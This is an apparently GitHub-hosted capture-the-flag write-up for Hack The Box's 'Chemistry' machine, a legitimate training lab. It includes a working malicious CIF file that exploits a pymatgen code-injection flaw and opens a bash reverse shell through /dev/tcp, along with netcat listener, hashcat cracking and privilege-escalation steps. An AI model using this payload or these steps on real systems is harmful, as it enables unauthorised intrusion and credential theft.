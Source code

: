
![Logo](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/Logo.png)



# Chemistry HTB

Objective: Hack the Linux machine, level: easy.


## Procedure
I know why you're here. You need advice because you're still figuring this stuff out. Trust me, I was there too. We all hit walls sometimes. For example, it took me two hours just to grab the root flag.

#### Enumeration

Alright, enumeration is key. Using nmap, we identify the services and other useful info.

```sh
 sudo nmap -sS -sVC -Pn -A --min-rate 5000 -n -p- -vvv 10.10.11.38 -oN nmap.txt
```

![nmap](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/nmap.png)

The output shows:

| Port             |  Service     |
| -----------------|--------------|
| 22               |SSH           |
|5000              |HTTP         |

Seems like a web issue. Probably need some directory enumeration tools... but nah, don’t need them today.

Let’s check out the web page.

![index](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/index.png)

It’s just a login and register page. Let’s register.

![Register](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/Register.png)

#### Ataquing

Oh, we can upload files. This is interesting. Maybe we can drop a reverse shell. Let’s upload a CIF file.

![Upload CIF file](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/Upload%20CIF%20file.png)

Let’s see what’s inside the example.CIF file.

![Link example](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/LinkExample.png)

![Example CIF](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/ExampleCIF.png)

Look for a CVE related to CIF.

![CVE CIF](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/CIF_CVE.png)

Here’s the POC.

![POC](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/vulnerabilityCIF.png)

Nice, now we can modify the example.cif to get a reverse shell.

```sh
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/IP/PORT 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```
Now listen with netcat:
```sh
nc -lvnp PORT
```
**Reminder:**  Don’t forget to change the ports and IP!

Now, upload the file and hit View.

![UploadAndView](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/uploadandViewCIF.png)

We’re in. Hold up... what’s this? A sqlite file? Haha, let’s grab it and see what’s inside.

![Looking app](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/appTesting.png)

** For convenience, spawn a bash shell with: **```python3 -c "import pty;pty.spawn('/bin/bash')" ```

Inside, we see user hashes. ChatGPT says the hash type is MD5, so let’s fire up hashcat.

![Looking hash](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/lookinghashrosainbrute.png)

Let’s attack the hash with hashcat.

```sh
sudo hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

![attacking the hash](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/hashattack.png)

#### Privilage escalation part 1

Nice, we’ve got the password for "rose." Let’s try logging in via SSH.

```sh
sudo -l
```

We can’t use sudo. That’s bad. Let’s check processes and the network.

```sh
ps aux

```

``` sh
netstat -l
```
```sh
ss -tuln
```
![netstat](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/netstat.png)

Port 8080 is running a local HTTP service. Let’s see which version.

```
curl http:127.0.0.1:8080 --head
```

![netstat](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/head.png)

Let’s check for vulnerabilities in aiohttp.

![CVE aiohtt](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/FIndingCVEaiohttp.png)

Boom, found a vulnerability. Let’s upload the exploit where Rose is and tweak it. This web app doesn’t have static files, just assets. Our target? root.txt.


![rootflag](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/ChemistryHTB/Images/rootflag.png)

We got it. Root flag’s ours.



## 🔗 Links

>* https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f
>* https://github.com/z3rObyte/CVE-2024-23334-PoC


